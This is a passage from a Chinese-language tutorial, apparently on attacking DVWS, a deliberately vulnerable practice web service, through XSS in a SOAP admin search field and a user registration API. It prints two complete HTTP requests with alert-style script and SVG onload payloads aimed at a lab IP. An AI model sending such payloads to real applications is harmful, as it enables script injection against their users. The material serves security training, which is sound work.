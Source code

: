 ### XSS 攻击

跨站脚本 (XSS) 攻击发生在可能将恶意脚本注入应用程序并被受害者查看的地方，在 SOAP 中的 XSS 其实和传统的 Web 应用中的 XSS 也相差不大，只是数据包的构造方式有一些差别，在 DVWS 管理员用户搜索区域中存在 XSS 漏洞，我们可以发送 HTML 编码后的 JavaScript 到服务器端，例如：<script>alert(1)</script> ，如下是一个简易的发送示例：

```plain
POST /dvwsuserservice HTTP/1.1
Host: 192.168.204.160
Content-Length: 493
Accept: application/json, text/plain, */*
X-Requested-With: XMLHttpRequest
Authorization: Bearer null
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.204.160
Referer: http://192.168.204.160/admin.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:examples:usernameservice">
   <soapenv:Header/>
   <soapenv:Body>
      <urn:Username soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">&lt;script&gt;alert(1)&lt;/script&gt;</username>
      </urn:Username>
   </soapenv:Body>
</soapenv:Envelope>
```

[![](assets/1705886707-4d6531b01d7623962bfaaa61bf74c7b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120115755-17ca82a6-b748-1.png)  
有时候我们也可以多留意一下注册类的接口：

```plain
POST /api/v2/users HTTP/1.1
Host: 192.168.204.160
Content-Length: 60
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=admin"><svg/onload=alert(/a/)>&password=12345678
```
